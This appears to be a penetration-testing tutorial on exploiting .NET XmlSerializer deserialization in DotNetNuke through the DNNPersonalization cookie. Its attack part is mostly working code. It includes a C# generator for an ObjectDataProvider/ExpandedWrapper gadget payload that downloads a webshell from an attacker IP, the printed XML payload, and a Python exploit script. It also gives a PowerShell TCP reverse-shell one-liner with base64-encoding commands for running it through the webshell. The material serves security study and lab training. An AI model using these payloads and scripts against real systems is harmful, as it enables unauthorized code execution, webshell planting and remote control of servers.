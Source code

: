 ```yaml
---
title: Pwning serialization
tags:
  - advanced
  - web-app
  - pentesting
  - serialization
  - dotnet
  - ysoserial
---
```


This article covers serialization vulnerabilities in web applications, particularly when web
applications deserialize arbitrary attacker input, converting that input into objects in process
memory, and how an attacker can chain deserialization gadgets to gain code execution.

## What is serialization?

Serialization describes the concept of converting data to an agreed upon format, transmitting it to
a consumer of said data, and then the consumer of that data extracting the information from the
serialized packet using the defined format to receive the original data. A lot of different formats
for data can be considered serialization, for example:

- Base64 encoding
- JSON
- XML
- etc.

## DotNetNuke

Subsequent paragraphs will discuss some vulnerabilities discovered and exploited in the
[DotNetNuke](<https://en.wikipedia.org/wiki/DNN_(software)>) web application, written in the .NET
Framework. More in-depth whitepapers and presentations related to deserialization attacks against
.NET's
[BinaryFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=netframework-4.7.2)
and
[XmlSerializer](https://learn.microsoft.com/en-us/dotnet/standard/serialization/introducing-xml-serialization)
are provided in the following resources:

- [Are you my type? - BlackHat](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
- [JSON Attacks - BlackHat](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)

### The vulnerability

The gist of DotNetNuke's vulnerability discussed in the presentation above is that, provided a
cookie named `DNNPersonalization` in XML format to a nonexistent API endpoint, the DotNetNuke user
profile business logic would attempt to deserialize the contents and convert them to objects for
storage in a hash table, likely to load particular user profile information and display it later.

The most interesting part about this vulnerability is that no type checking is conducted on the
object types stored within the XML data before deserialization. If some type checking _was_ done
prior to deserialization, it's likely this vulnerability would be much more difficult to abuse.

### Gaining code execution

Plenty of gadgets are mentioned in the "JSON Attacks" presentation, but the prime example used to
gain code execution is the
[ObjectDataProvider](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.7.2)
class. The **ObjectDataProvider** class allows us to wrap an arbitrary object and call its methods,
as well as provide parameters for these methods. This class is used to created binding sources,
objects that provide programmers with relevant data and are bound to a target object, e.g. a
TextBox, ComboBox, etc., to display data.

For code execution, since we can't call arbitrary methods of existing classes directly, we use the
**ObjectDataProvider** class as a gadget to load and execute classes with methods of interest, e.g.
the **DotNetNuke.Common.Utilities.FileSystemUtils.PullFile** method that DotNetNuke uses to download
files from arbitrary internet locations.

Unfortunately, during deserialization with the **XmlSerializer** class, while the
**ObjectDataProvider** class is recognized by the deserialization routine, **XmlSerializer** doesn't
understand the object reference to the **FileSystemUtils** within the class attribute. To remedy
this, we can use another gadget, the
[ExpandedWrapper](https://learn.microsoft.com/en-us/dotnet/api/system.data.services.internal.expandedwrapper-2?view=netframework-4.7.2)
class, to provide a generic class for deserialization by the **XmlSerializer** class. Ultimately,
this enables us to deserialize an **ObjectDataProvider** class with our specified target class,
**FileSystemUtils**, and our method(s), for code execution, **PullFile**.

Below is a snippet of C# code targeting the .NET Framework, using these gadgets to generate XML that
can be deserialized by the **XmlSerializer** class to download arbitrary files to the host via HTTP:

```csharp
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using System.Collections;
using System.Data.Services.Internal;
using System.Windows.Data;

namespace ExpWrapSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            Serialize();
        }
        public static void Serialize()
        {
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
            myExpWrap.ProjectedProperty0.MethodName = "PullFile";
            myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.45.156/webshell.aspx");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/webshell.aspx");


            Hashtable table = new Hashtable();
            table["myTableEntry"] = myExpWrap;
            String payload = XmlUtils.SerializeDictionary(table, "profile");
            TextWriter writer = new StreamWriter("C:\\Windows\\Temp\\Payload.txt");
            writer.Write(payload);
            writer.Close();

            Console.WriteLine("Done!");
        }

    }
}
```

After building and executing the above C# application, an XML `Payload.txt` file will be generated
in `C:\Windows\Temp`. Upon deserialization of this payload with **XmlSerializer**, the victim host
deserializing the payload will download `webshell.aspx` to its web root from the attacker host
specified in the payload.

Below is an example of the compiled payload:

```txt
<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.156/webshell.aspx</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/webshell.aspx</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
```

### Getting a reverse shell

With our ability to pull arbitrary files from remote locations, we host the `cmdasp.aspx` webshell
file on our attacker host and coerce the victim host to download the webshell to its web root. We
then execute a PowerShell reverse shell via the uploaded web shell on the victim host using our
browser, gaining an interactive shell with the victim host as the web server's user.

To find the `cmdasp.aspx` file on our Kali Linux installation, use the invoke the following in Bash

```bash
locate cmdasp.aspx
```

The following Python script interacts with the DotNetNuke web application to abuse the serialization
vulnerability discussed, using our payload generated in previous sections:

```python
import http.client
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1
requests.packages.urllib3.disable_warnings()
API_ENDPOINT = "/dotnetnuke/doesnotexist"


class Solution:
    def __init__(self, url: str, lhost: str, filename: str) -> None:
        self.s = requests.Session()
        self.url = f"{url.rstrip("/")}{API_ENDPOINT}"
        self.lhost, self.filename = lhost, filename

    def solve(self) -> None:
        # Provide malicious cookie to target DNN serialization bug,
        # triggering PullFile to download 'self.filename' from
        # 'self.lhost'
        req = requests.Request(
            "GET",
            self.url,
            cookies={
                "DNNPersonalization": '<profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://{lhost}/{filename}</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/{filename}</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>'.format(
                    lhost=self.lhost, filename=self.filename
                )
            },
        )
        prepped = self.s.prepare_request(req)
        self.s.send(prepped, verify=False)


def main():
    parser = ArgumentParser()
    parser.add_argument("-u", "--url", dest="url")
    parser.add_argument("-lh", "--lhost", dest="lhost")
    parser.add_argument("-f", "--filename", dest="filename")
    args = parser.parse_args()
    s = Solution(args.url, args.lhost, args.filename)
    s.solve()


if __name__ == "__main__":
    main()
```

After the webshell is uploaded to the target host, we can visit it at
`http://dnn/dotnetnuke/cmdasp.aspx`. From
[Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1),
we can execute the following PowerShell one-liner to initiate a reverse shell over TCP with our
attacker host:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('{ATTACKER_IP}',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
```

That's a lot of text and special characters. We can invoke the following in Bash to convert our
PowerShell one-liner to PowerShell-friendly Base64 encoding:

```bash
iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
```

Finally, we can execute our reverse shell payload on the target webshell with:

```cmd
powershell.exe -EncodedCommand {Base64Payload}
```

## ysoserial

In the above sections we discussed manually constructing our deserialization payloads, however,
security researchers have been so gracious as to construct applications that can automatically
generate these payloads with known, working gadgets. **ysoserial** comes in two (2) different
flavors that target both Java and .NET:

- [ysoserial - Java](https://github.com/frohoff/ysoserial)
- [ysoserial - C#](https://github.com/pwntester/ysoserial.net)

## ManageEngine Applications Manager

**ManageEngine**, another regular offender, amongst its various SQL injection vulnerabilities, also
had an unauthenticated deserialization of arbitrary Java objects that could be accessed by the Java
Runtime Environment (JRE) from remote hosts. This vulnerability is explained and abuse in the
article below:

- [# ManageEngine Applications Manager Deserialization Unauthenticated RCE](https://blog.jamesotten.com/post/applications-manager-rce/)
